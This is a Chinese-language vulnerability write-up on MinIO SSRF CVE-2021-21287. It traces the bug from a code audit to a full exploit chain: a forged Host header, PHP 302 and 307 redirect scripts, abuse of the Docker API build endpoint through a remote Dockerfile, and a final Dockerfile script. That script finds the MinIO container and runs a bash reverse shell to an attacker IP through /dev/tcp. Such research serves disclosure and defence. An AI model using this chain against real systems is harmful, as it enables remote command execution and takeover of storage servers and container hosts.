


# MinIO SSRF漏洞 CVE-2021-21287

## 漏洞描述

随着工作和生活中的一些环境逐渐往云端迁移，对象存储的需求也逐渐多了起来，[MinIO](https://min.io/)就是一款支持部署在私有云的开源对象存储系统。MinIO完全兼容AWS S3的协议，也支持作为S3的网关，所以在全球被广泛使用，在Github上已有25k星星。MinIO中存在SSRF漏洞，通过漏洞可以获取敏感信息或远程命令执行

## 漏洞影响

<a-checkbox checked>MinIO</a-checkbox></br>

## 漏洞复现

既然我们选择了从MinIO入手，那么先了解一下MinIO。其实我前面也说了，因为平时用到MinIO的时候很多，所以这一步可以省略了。其使用Go开发，提供HTTP接口，而且还提供了一个前端页面，名为“MinIO Browser”。当然，前端页面就是一个登陆接口，不知道口令无法登录。

那么从入口点（前端接口）开始对其进行代码审计吧。

在User-Agent满足正则`.*Mozilla.*`的情况下，我们即可访问MinIO的前端接口，前端接口是一个自己实现的JsonRPC：

[](https://www.leavesongs.com/media/attachment/2021/01/30/6896653c-ba8c-476c-a224-6b6dfce60186.png)

我们感兴趣的就是其鉴权的方法，随便找到一个RPC方法，可见其开头调用了`webRequestAuthenticate`，跟进看一下，发现这里用的是jwt鉴权：

[](https://www.leavesongs.com/media/attachment/2021/01/30/7861ca8b-00bb-4393-bee8-98331154fdae.png)

jwt常见的攻击方法主要有下面这几种：

`将alg设置为None，告诉服务器不进行签名校验`

`如果alg为RSA，可以尝试修改为HS256，即告诉服务器使用公钥进行签名的校验`

`爆破签名密钥`

查看MinIO的JWT模块，发现其中对alg进行了校验，只允许以下三种签名方法：

[](https://www.leavesongs.com/media/attachment/2021/01/30/580f2f79-5147-4810-b517-72dfffa6fae8.png)

这就堵死了前两种绕过方法，爆破当然就更别说了，通常仅作为没办法的情况下的手段。当然，MinIO中使用用户的密码作为签名的密钥，这个其实会让爆破变地简单一些。

鉴权这块没啥突破，我们就可以看看，有哪些RPC接口没有进行权限验证。

很快找到了一个接口，`LoginSTS`。这个接口其实是AWS STS登录接口的一个代理，用于将发送到JsonRPC的请求转变成STS的方式转发给本地的9000端口（也就还是他自己，因为它是兼容AWS协议的）。

简化其代码如下：

```
// LoginSTS - STS user login handler.
func (web *webAPIHandlers) LoginSTS(r *http.Request, args *LoginSTSArgs, reply *LoginRep) error {
    ctx := newWebContext(r, args, "WebLoginSTS")

    v := url.Values{}
    v.Set("Action", webIdentity)
    v.Set("WebIdentityToken", args.Token)
    v.Set("Version", stsAPIVersion)

    scheme := "http"
    // ...

    u := &url.URL{
        Scheme: scheme,
        Host:   r.Host,
    }

    u.RawQuery = v.Encode()
    req, err := http.NewRequest(http.MethodPost, u.String(), nil)
    // ...
}
```

没发现有鉴权上的绕过问题，但是发现了另一个有趣的问题。这里，MinIO为了将请求转发给“自己”，就从用户发送的HTTP头Host中获取到“自己的地址”，并将其作为URL的Host构造了新的URL。

这个过程有什么问题呢？

因为请求头是用户可控的，所以这里可以构造任意的Host，进而构造一个SSRF漏洞。

我们来实际测试一下，向`http://192.168.227.131:9000`发送如下请求，其中Host的值是我本地ncat开放的端口（`192.168.1.142:4444`）：

```
POST /minio/webrpc HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 80

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}
```

成功收到请求：

[](https://www.leavesongs.com/media/attachment/2021/01/30/ebe8ebd1-d1c1-4d28-92e7-8da4774e940e.png)

可以确定这里存在一个SSRF漏洞了。

仔细观察，可以发现这是一个POST请求，但是Path和Body都没法控制，我们能控制的只有URL中的一个参数`WebIdentityToken`。

但是这个参数经过了URL编码，无法注入换行符等其他特殊字符。这样就比较鸡肋了，如果仅从现在来看，这个SSRF只能用于扫描端口。我们的目标当然不仅限于此。

幸运的是，Go默认的http库会跟踪302跳转，而且不论是GET还是POST请求。所以，我们这里可以302跳转来“升级”SSRF漏洞。

使用PHP来简单地构造一个302跳转：

```
<?php
header('Location: http://192.168.1.142:4444/attack?arbitrary=params');
```

将其保存成index.php，启动一个PHP服务器：

[](https://www.leavesongs.com/media/attachment/2021/01/30/d699b863-4102-4479-a4e0-71d15efaf1c3.png)

将Host指向这个PHP服务器。这样，经过一次302跳转，我们收获了一个可以控制完整URL的GET请求：

[](https://www.leavesongs.com/media/attachment/2021/01/30/187c113f-1d4a-4806-897d-4e3f62c25042.png)

放宽了一些限制，结合前面我对这套内网的了解，我们可以尝试攻击Docker集群的2375端口。

2375是Docker API的接口，使用HTTP协议通信，默认不会监听TCP地址，这里可能是为了方便内网其他机器使用所以开放在内网的地址里了。那么，我们是否可以通过SSRF来攻击这个接口呢？

在Docker未授权访问的情况下，我们通常可以使用`docker run`或`docker exec`来在目标容器里执行任意命令（如果你不了解，可以参考[这篇文章](http://blog.neargle.com/SecNewsBak/drops/新姿势之Docker Remote API未授权访问漏洞分析和利用.html)）。但是翻阅Docker的文档可知，这两个操作的请求是`POST /containers/create`和`POST /containers/{id}/exec`。

两个API都是POST请求，而我们可以构造的SSRF却是一个GET的。怎么办呢？

还记得我们是怎样获得这个GET型的SSRF的吗？通过302跳转，而接受第一次跳转的请求就是一个POST请求。不过我们没法直接利用这个POST请求，因为他的Path不可控。

如何构造一个Path可控的POST请求呢？

我想到了307跳转，307跳转是在[RFC 7231](https://tools.ietf.org/html/rfc7231#page-58)中定义的一种HTTP状态码，描述如下：

> The 307 (Temporary Redirect) status code indicates that the target resource resides temporarily under a different URI and the user agent **MUST NOT** change the request method if it performs an automatic redirection to that URI.

307跳转的特点就是**不会**改变原始请求的方法，也就是说，在服务端返回307状态码的情况下，客户端会按照Location指向的地址发送一个相同方法的请求。

我们正好可以利用这个特性，来获得POST请求。

简单修改一下之前的index.php：

```
<?php
header('Location: http://192.168.1.142:4444/attack?arbitrary=params', false, 307);
```

尝试SSRF攻击，收到了预期的请求：

[](https://www.leavesongs.com/media/attachment/2021/01/30/565c0dff-2e74-4ea0-995a-38881ae7207d.png)

Bingo，获得了一个POST请求的SSRF，虽然没有Body。

回到Docker API，我发现现在仍然没法对run和exec两个API做利用，原因是，这两个API都需要在请求Body中传输JSON格式的参数，而我们这里的SSRF无法控制Body。

继续翻越Docker文档，我发现了另一个API，[Build an image](https://docs.docker.com/engine/api/v1.41/#operation/ImageBuild)：

[](https://www.leavesongs.com/media/attachment/2021/01/30/81f686d6-4580-428a-bb4c-d2dc4f2b23d8.png)

这个API的大部分参数是通过Query Parameters传输的，我们可以控制。阅读其中的选项，发现它可以接受一个名为`remote`的参数，其说明为：

> A Git repository URI or HTTP/HTTPS context URI. If the URI points to a single text file, the file’s contents are placed into a file called `Dockerfile` and the image is built from that file. If the URI points to a tarball, the file is downloaded by the daemon and the contents therein used as the context for the build. If the URI points to a tarball and the `dockerfile` parameter is also specified, there must be a file with the corresponding path inside the tarball.

这个参数可以传入一个Git地址或者一个HTTP URL，内容是一个Dockerfile或者一个包含了Dockerfile的Git项目或者一个压缩包。

也就是说，Docker API支持通过指定远程URL的方式来构建镜像，而不需要我在本地写入一个Dockerfile。

所以，我尝试编写了这样一个Dockerfile，看看是否能够build这个镜像，如果可以，那么我的4444端口应该能收到wget的请求：

```
FROM alpine:3.13
RUN wget -T4 http://192.168.1.142:4444/docker/build
```

然后修改前面的index.php，指向Docker集群的2375端口：

```
<?php
header('Location: http://192.168.227.131:2375/build?remote=http://192.168.1.142:4443/Dockerfile&nocache=true&t=evil:1', false, 307);
```

进行SSRF攻击，等待了一会儿，果然收到请求了：

[](https://www.leavesongs.com/media/attachment/2021/01/30/db483d55-f1d5-4a3e-9d00-b53d9833d464.png)

完美，我们已经可以在目标集群容器里执行任意命令了。

此时离我们的目标，拿下MinIO，还差一点点，后面的攻击其实就比较简单了。

因为现在可以执行任意命令，我们就不会再受到SSRF漏洞的限制，可以直接反弹一个shell，或者可以直接发送任意数据包到Docker API，来访问容器。经过一顿测试，我发现MinIO虽然是运行的一个service，但实际上就只有一个容器。

所以我编写了一个自动化攻击MinIO容器的脚本，并将其放在了Dockerfile中，让其在Build的时候进行攻击，利用`docker exec`在MinIO的容器里执行反弹shell的命令。这个Dockerfile如下：

```shell
FROM alpine:3.13

RUN apk add curl bash jq

RUN set -ex && \
    { \
        echo '#!/bin/bash'; \
        echo 'set -ex'; \
        echo 'target="http://192.168.227.131:2375"'; \
        echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
        echo 'for item in ${jsons[@]}; do'; \
        echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
        echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
        echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
        echo '        break'; \
        echo '    fi'; \
        echo 'done'; \
        echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.1.142/4444 0>&1\"]}" | jq -r ".Id")'; \
        echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
    } | bash
```

这个脚本所干的事情比较简单，一个是遍历了所有容器，如果发现其镜像的名字中包含`minio/minio`，则认为这个容器就是MinIO所在的容器。拿到这个容器的Id，用exec的API，在其中执行反弹shell的命令。

最后成功[拿到MinIO容器的shell](https://youtu.be/WyDEn0wUhPc)

## 参考文章

<a-alert type="success" message="https://www.leavesongs.com/PENETRATION/the-collision-of-containers-and-the-cloud-pentesting-a-MinIO.html" description="" showIcon>
</a-alert>